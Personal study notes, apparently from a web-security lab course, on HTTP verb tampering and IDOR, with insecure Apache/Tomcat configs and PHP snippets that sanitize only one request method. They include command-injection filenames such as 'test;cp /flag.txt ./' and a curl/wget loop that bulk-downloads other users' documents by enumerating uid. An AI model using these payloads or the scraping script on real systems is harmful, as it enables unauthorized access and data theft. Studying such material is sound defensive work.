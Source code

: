 

# HTTP Verb Tampering

-  HTTP methods as `verbs`

|Verb|Description|
|---|---|
|`HEAD`|Identical to a GET request, but its response only contains the `headers`, without the response body|
|`PUT`|Writes the request payload to the specified location|
|`DELETE`|Deletes the resource at the specified location|
|`OPTIONS`|Shows different options accepted by a web server, like accepted HTTP verbs|
|`PATCH`|Apply partial modifications to the resource at the specified location|
## Insecure Configurations


```xml
<Limit GET POST>
    Require valid-user
</Limit>
```

- requires authentication only for GET and POST
-  `HEAD` to bypass this authentication mechanism altogether





## Bypassing Basic Authentication

- **Check both GET and POST methods to ensure they are not bypassed.**
- **Use the OPTIONS method to see which request methods are accepted by the server.**
- **Use the HEAD method to potentially bypass authentication.**

### Example Scenario
![[Pasted image 20240615152237.png]]

1. **Authentication Required for Reset**
	![[Pasted image 20240615145048.png]]
    - URL: `http://94.237.51.149:34391/admin/reset.php` requires authentication.
        - 
2. **Authentication Implemented for GET and POST**
    
    - Both GET and POST requests require authentication.
        - ![[Pasted image 20240615145400.png]]
        - ![[Pasted image 20240615145433.png]]
3. **Using OPTIONS to Check Accepted Methods**
    
    - Check accepted request methods using OPTIONS.
        - ![[Pasted image 20240615150036.png]]
        - ![[Pasted image 20240615150643.png]]



## Bypassing Security Filters

-  caused by `Insecure Coding`

	 **Insecure Coding**
	
	```php
	$pattern = "/^[A-Za-z\s]+$/";
	
	if(preg_match($pattern, $_GET["code"])) {
	    $query = "Select * from ports where port_code like '%" . $_REQUEST["code"] . "%'";
	    ...SNIP...
	}
	```
	- The developer sanitizes the `code` parameter in GET requests to prevent SQL injection.
	- If the `code` parameter in the GET request does not contain harmful characters, the query is executed.
	- The query is executed using the `_REQUEST` method, which can handle both GET and POST requests.
	- Only the `code` parameter from GET requests is sanitized, leaving POST requests vulnerable to SQL injection.
	




### Example

1. **Initial POST Request**
    
    - Using the file name `test;` in a POST request to add files:
    - ![[Pasted image 20240615151203.png]]
    - The request is successful. (Malicious Request Denied)
2. **Changing to GET Request**
    
    - Change the request method to GET:
    - ![[Pasted image 20240615151348.png]]
    - ![[Pasted image 20240615151428.png]]
    - The request does not receive a `Malicious Request Denied!` response.
3. **Command Injection Attempt**
    
    - Attempt to inject a command: `file1; touch file2;`:
    - ![[Pasted image 20240615151515.png]]
    - Both files (`file1` and `file2`) are created:
    - ![[Pasted image 20240615151528.png]]

	- `test;cp /flag.txt ./ `
	- ![[Pasted image 20240615152734.png]]



## Verb Tampering Prevention


### Insecure Configuration

**Apache web server Configuration**

```xml
<Directory "/var/www/html/admin">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile /etc/apache2/.htpasswd
    <Limit GET>
        Require valid-user
    </Limit>
</Directory>
```

- **Configuration Issue**: `<Limit GET>` only restricts GET requests.
- **Vulnerability**: The page remains accessible via POST requests.
- **Partial Restriction**: Even if `<Limit GET POST>` is used, other methods (HEAD, OPTIONS) are not restricted.

**Tomcat web server configuration**

```xml
<security-constraint>
    <web-resource-collection>
        <url-pattern>/admin/*</url-pattern>
        <http-method>GET</http-method>
    </web-resource-collection>
    <auth-constraint>
        <role-name>admin</role-name>
    </auth-constraint>
</security-constraint>
```

- restricted only to the GET method using `<Limit GET>`.



### Insecure Coding


```php
	if (isset($_REQUEST['filename'])) {
    if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
        system("touch " . $_REQUEST['filename']);
    } else {
        echo "Malicious Request Denied!";
    }
}
	```
- The developer sanitizes the `filename` parameter in POST requests to prevent command injection.
- If the `filename` parameter in the POST request does not contain harmful characters, the command is executed.
- The command is executed using the `_REQUEST` method, which can handle both GET and POST requests.
- Only the `filename` parameter from POST requests is sanitized, leaving GET requests vulnerable to command injection.
	
|Language|Function|
|---|---|
|PHP|`$_REQUEST['param']`|
|Java|`request.getParameter('param')`|
|C#|`Request['param']`|


## Insecure Direct Object References (IDOR)



### Insecure Parameters

```
http://SERVER_IP:PORT/documents.php?uid=1
```

- uid is vulnerable to idor

- this link let us to download employee documents


## Mass Enumeration


- enumerate and find out available datas using idor

### Example

This page allows us to fetch documents by using:





```
http://SERVER_IP:PORT/documents.php?uid=2
```

#### Sample HTML Response





```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li> <li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

#### Extracting Document Links with cURL and grep





```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

#### Shell Script to Download All Documents




```
#!/bin/bash  url="http://SERVER_IP:PORT"  for i in {1..10}; do     for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do         wget -q $url/$link     done done
```







